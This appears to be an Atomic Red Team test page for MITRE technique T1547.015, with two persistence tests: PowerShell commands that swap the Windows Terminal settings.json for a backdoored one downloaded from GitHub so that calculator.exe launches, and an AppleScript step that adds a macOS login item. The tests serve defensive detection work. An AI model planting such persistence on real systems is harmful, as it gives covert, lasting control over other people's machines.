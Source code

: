 ```yaml
---
tags: [T1547_015, atomic_test]
filename: "[[T1547.015 - Boot or Logon Autostart Execution- Login Items]]"
---
```

# T1547.015 - Boot or Logon Autostart Execution: Login Items

## Atomic Test #1 - Persistence by modifying Windows Terminal profile
Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows


**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calculator | Test program used to imitate a maliciously called program. | string | calculator.exe|
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | path | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json|
| settings_json_tmp | Temp file for Windows Terminal. | path | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json|
| wt_exe | Windows Terminal executable. | path | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:
```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Terminal must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```




<br/>
<br/>

## Atomic Test #2 - Add macOS LoginItem using Applescript
Runs osascript on a file to create new LoginItem for current user.
NOTE: Will popup dialog prompting user to Allow or Deny Terminal.app to control "System Events"
Therefore, it can't be automated until the TCC is granted.
The login item launches Safari.app when user logs in, but there is a cleanup script to remove it as well.
In addition to the `osascript` Process Events, file modification events to
`/Users/*/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm` should be seen.

**Supported Platforms:** macOS


**auto_generated_guid:** 716e756a-607b-41f3-8204-b214baf37c1d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| scriptfile | path to Applescript source to add Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/add_login_item.osa|
| cleanup_script | path to Applescript source to delete Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/remove_login_item.osa|


#### Attack Commands: Run with `bash`! 


```bash
osascript #{scriptfile}
```

#### Cleanup Commands:
```bash
osascript #{cleanup_script}
```





<br/>

